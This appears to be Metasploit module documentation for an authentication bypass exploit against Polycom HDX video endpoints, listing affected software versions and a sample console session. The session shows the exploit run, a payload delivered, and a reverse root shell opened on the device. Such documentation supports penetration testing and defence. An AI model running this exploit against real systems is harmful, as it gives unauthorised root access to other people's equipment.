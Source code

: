 ## Vulnerable Application

This module exploits the Polycom HDX Video End Points with software <= 3.0.5.
It was tested on a Polycom HDX 7000 running software version 3.0.3. Telnet port
23 should be accessible, as it is with the factory default configuration.

## Verification Steps

A successful check of the exploit will look like this:

```
msf exploit(psh_auth_bypass) > use exploit/unix/misc/psh_auth_bypass
msf exploit(psh_auth_bypass) > run

[*] Started reverse double SSL handler on 192.168.1.120:4444
[*] 192.168.1.155:23 - Starting Authentication bypass with 6 threads with 100 max connections
[+] 192.168.1.155:23 - 192.168.1.155:23 Successfully exploited the authentication bypass flaw
[+] 192.168.1.155:23 - Sending payload of 178 bytes to 192.168.1.155:40186...
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo xInxktvgUmm7hPyh;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "xInxktvgUmm7hPyh\n"
[*] Matching...
[*] A is input...
[*] Command shell session 1 opened (192.168.1.120:4444 -> 192.168.1.155:37728) at 2016-08-01 13:49:06 -0500
[*] 192.168.1.155:23 - Shutting down payload stager listener...

whoami
root
uname -a
Linux polycom.lan 2.6.33.3-rt17.p2.25 #1 PREEMPT RT Wed Aug 3 14:08:40 CDT 2011 ppc unknown
```
